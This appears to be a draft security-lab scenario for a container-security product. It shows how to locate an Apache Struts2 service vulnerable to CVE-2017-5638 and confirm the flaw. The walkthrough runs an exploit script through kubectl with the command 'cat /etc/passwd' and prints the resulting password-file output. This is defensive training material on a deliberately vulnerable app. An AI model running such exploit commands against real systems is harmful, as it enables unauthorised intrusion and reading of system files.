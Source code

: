 # Scenario: Runtime Vulnerability Scanning on ECS

***DRAFT***

## Prerequisites

- Vision One Container Security
- Playground One ECS Cluster
- Playground One Scenarios

Ensure to have the EKS Cluster including the Scenarios up and running:

```sh
pgo --apply ecs
pgo --apply scenarios
```

## Disclaimer

> ***Note:*** It is highly recommended to have the `awsone.access_ip` set to a single IP or at least a small CIDR before deploying the EKS cluster. This will prevent anonymous users playing with your environmnent. Remember: we're using vulnerable apps.

## Overview

This scenario showcases the vulnerability detection functionalities of Vision One Container Security at runtime in ECS clusters. The deployment of this scenario is based on a container image with plenty of different vulnerabilities.

By the end of the scenario, you will understand and learn the following:

- Reviewing vulnerability findings and searching for a specific vulnerability
- Proof the finding by exploitation

## The story

Every now and then new critical vulnerabilities are disclosed. A famous one with huge impact was the  vulnerability CVE-2017-5638. 

On March 6th 2017, a new remote code execution (RCE) vulnerability in Apache Struts 2 was made public. This vulnerability allows a remote attacker to inject operating system commands into a web application through the “Content-Type” header. Written in Java, Apache Struts 2 is the popular open source web application framework. This is yet another incident that adds up to a long list of vulnerabilities in this framework.

You want to search and validate for this specific vulnerability in your production environment.

## Goals

The goal of this scenario is to identify the vulnerable deployment and proof that it is vulnerable.

### Hints

<details>
<summary>Click here</summary>

✨ Didn't find the vulnerable deployment?
<br><br>
Head over to Container Security --> Runtime vulnerability and search for CVE-2017-5638. 🙌
<br><br>

</details>

## Solution & Walkthrough

<details>
<summary>Click here</summary>

Head over to Attack Surface Risk Managemet and search for the vulnerability CVE-2017-5638

Identify the vulnerable deployment/container on the ECS cluster(s)

Find out the load balancer address of the vulnerable service.

In your shell run

```sh
dns_name="<LB ADDRESS>"

kubectl exec -n attackers \
  $(kubectl -n attackers get pods --selector=app=attacker-cve-2017-5638 -o jsonpath='{.items[0].metadata.name}') -- \
  python3 exploit.py "http://${dns_name}" 'cat /etc/passwd'
```

```ascii
[*] CVE: 2017-5638 - Apache Struts2 S2-045
[*] cmd: cat /etc/passwd

b'root:x:0:0:root:/root:/bin/bash\ndaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\nbin:x:2:2:bin:/bin:/usr/sbin/nologin\nsys:x:3:3:sys:/dev:/usr/sbin/nologin\nsync:x:4:65534:sync:/bin:/bin/sync\ngames:x:5:60:games:/usr/games:/usr/sbin/nologin\nman:x:6:12:man:/var/cache/man:/usr/sbin/nologin\nlp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin\nmail:x:8:8:mail:/var/mail:/usr/sbin/nologin\nnews:x:9:9:news:/var/spool/news:/usr/sbin/nologin\nuucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin\nproxy:x:13:13:proxy:/bin:/usr/sbin/nologin\nwww-data:x:33:33:www-data:/var/www:/usr/sbin/nologin\nbackup:x:34:34:backup:/var/backups:/usr/sbin/nologin\nlist:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin\nirc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin\ngnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin\nnobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin\n_apt:x:100:65534::/nonexistent:/usr/sbin/nologin\n'
```

You proofed that the application server of your little todolist application is vulnerable to CVE-2017-5638.

🎉 Success 🎉

</details>
